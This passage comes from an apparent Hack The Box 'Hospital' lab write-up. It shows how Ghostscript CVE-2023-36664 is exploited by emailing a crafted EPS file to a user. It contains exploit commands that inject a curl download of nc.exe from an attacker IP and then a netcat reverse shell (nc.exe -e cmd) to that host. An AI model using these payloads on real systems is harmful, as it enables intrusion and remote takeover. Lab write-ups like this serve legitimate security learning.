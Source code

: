 A vulnerability in Ghostscript, identified as CVE-2023-36664, enables command injection upon opening a PS or EPS file, potentially resulting in code execution.

Use the [GhostScript Command Injection POC](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) to create a malicious EPS file and gain a reverse shell.

The first step is injecting code that will download nc.exe from the attacker server.

```bash
python CVE_023_36664_exploit.py --inject --payload 'curl 10.10.14.26/nc.exe' --filename file.eps
```

![running the payload](/assets/img/htb/hospital/curl_nc_ghostscript.png)

Access the compose function, attach the malicious .eps file, set the recipient as Drbrown, and proceed to send the email.

![composing email](/assets/img/htb/hospital/composing_email_1.png)

The attacker's machine receives a GET request, confirming the success of the code injection. Afterwards, nc.exe is now present on the victim machine.

![received "get" hit](/assets/img/htb/hospital/get_hit_1.png)

The attacker proceeds to create and send another malicious .eps file, this time the code injection will tell the victim machine to execute nc.exe and send a reverse shell to the attacker's machine.

```bash
python CVE_023_36664_exploit.py --inject --payload 'nc.exe -e cmd 10.10.14.26 9001' --filename file.eps
```
![ghostscript reverse shell injection](/assets/img/htb/hospital/ghostscript_reverse_shell.png)
